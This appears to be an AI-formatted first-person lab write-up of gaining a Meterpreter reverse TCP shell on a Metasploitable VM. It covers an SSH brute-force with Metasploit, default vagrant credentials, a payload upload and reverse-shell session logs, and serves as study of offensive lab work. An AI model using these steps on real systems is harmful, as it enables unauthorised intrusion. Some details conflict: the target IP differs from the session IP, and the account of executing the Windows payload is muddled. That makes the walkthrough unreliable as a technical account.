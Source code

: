 Here’s your **complete Markdown report** with the first-person walkthrough **and** the Mermaid diagram included. You can save it as a `.md` file and view it in any Markdown viewer that supports Mermaid.

````markdown
# My Walkthrough: Gaining a Meterpreter Reverse TCP on Metasploitable

## 1️⃣ SSH Login via Metasploit

I started by using Metasploit’s `auxiliary/scanner/ssh/ssh_login` module to brute-force SSH on my target machine (`192.168.56.117`).

```text
exploit
````

I successfully logged in with:

```
Username: vagrant
Password: vagrant
```

Metasploit opened two SSH sessions for me:

```
Session 2 & 3: shell linux
```

---

## 2️⃣ Uploading the Payload and Initial Execution Attempt

I uploaded my Windows payload via Metasploit:

```text
upload /home/yumi/meter.exe /home/vagrant/meter.exe
```

The upload succeeded:

```
[+] File /home/vagrant/meter.exe upload finished
```

However, when I tried to execute it in my Metasploit shell:

```text
./meter.exe
```

I got:

```
-bash: ./meter.exe: cannot execute binary file
```

I realized the payload was **Windows-only**, and it wouldn’t run on Linux.

---

## 3️⃣ Using Remmina and a Shared Folder

Since I couldn’t execute the payload in my Metasploit shell, I connected to the target using **Remmina (RDP client)**. I created a **shared folder** pointing to where `meter.exe` was located on the target.

This allowed me to **execute the payload from within the RDP session**, which triggered a connection back to my host.

---

## 4️⃣ Getting the Meterpreter Reverse Shell

After executing the payload via the shared folder, Metasploit received the reverse shell:

```text
[*] Sending stage (177734 bytes) to 192.168.56.107
[*] Meterpreter session 4 opened (192.168.56.106:4444 -> 192.168.56.107:49485)
[*] Sending stage (177734 bytes) to 192.168.56.107
[*] Meterpreter session 5 opened (192.168.56.106:4444 -> 192.168.56.107:49487)
```

I now had **full Meterpreter sessions** on the target, giving me remote control.

---

## 5️⃣ Enumerating the Target

I explored the target’s directories:

```text
ls
# Shows all user directories
whoami
# vagrant
```

I confirmed that I was logged in as `vagrant`. I also verified that Python and Bash were available:

```text
[*] Found python at /usr/bin/python
[*] Found bash at /bin/bash
```

This allowed me to open interactive shells and continue exploring the system.

---

## 6️⃣ Key Takeaways

* **Execution issue**: I couldn’t run `meter.exe` in the Metasploit shell because it’s a Windows payload.
* **Remmina + shared folder**: This was crucial to executing the payload successfully on the target.
* **Reverse TCP**: Executing the payload triggered a reverse TCP connection, giving me full Meterpreter access.
* **OS compatibility**: Always consider the target OS; reverse shells can bypass direct execution limitations.

---

## 7️⃣ Workflow Diagram

```mermaid
flowchart TD
    A[Start] --> B[SSH Login via Metasploit]
    B --> C[Upload meter.exe via Metasploit]
    C --> D[Try executing in Metasploit shell]
    D --> E[Execution fails - Windows payload on Linux]
    E --> F[Connect via Remmina (RDP)]
    F --> G[Create shared folder pointing to payload]
    G --> H[Execute meter.exe via shared folder]
    H --> I[Reverse TCP connection triggered]
    I --> J[Meterpreter sessions opened (full control)]
    J --> K[Enumerate target, check users, open interactive shells]
    K --> L[End]
```

This diagram visually represents my full workflow, from SSH login to gaining a Meterpreter reverse TCP session on the target.

```

